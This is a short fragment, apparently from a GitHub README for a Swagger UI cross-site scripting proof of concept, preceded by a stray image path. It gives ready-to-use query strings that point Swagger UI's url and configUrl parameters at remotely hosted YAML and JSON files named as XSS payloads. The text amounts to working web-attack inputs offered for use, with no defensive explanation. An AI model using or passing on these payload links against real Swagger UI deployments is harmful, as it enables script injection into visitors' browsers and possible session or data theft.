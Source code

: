 #example:

```url```

`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml ?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`

```configUrl```

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

